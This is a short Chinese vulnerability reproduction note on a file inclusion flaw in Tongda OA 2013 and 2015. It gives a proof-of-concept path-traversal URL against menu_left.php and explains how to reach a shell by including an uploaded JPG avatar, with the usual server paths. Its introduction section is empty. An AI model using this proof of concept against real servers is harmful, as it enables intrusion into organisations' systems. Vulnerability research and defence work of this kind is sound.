

# 通达oa 文件包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3336](https://www.zhihuifly.com/t/topic/3336)

# 通达oa 文件包含漏洞

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

poc

```
http://0-sec.org/inc/menu_left.php?GLOBALS[MENU_LEFT][A][module][1]=a&include_file=../inc/js/menu_left.js 
```

通常情况下，在控制⾯板中上传⼀个jpg头像，然后利用该⻚面的⽂件包含getshell。通达OA网站的根⽬录 一般在D:\MYOA\webroot中,头像附件一般在D:\MYOA\webroot\attachment\avatar\XXX.jpg

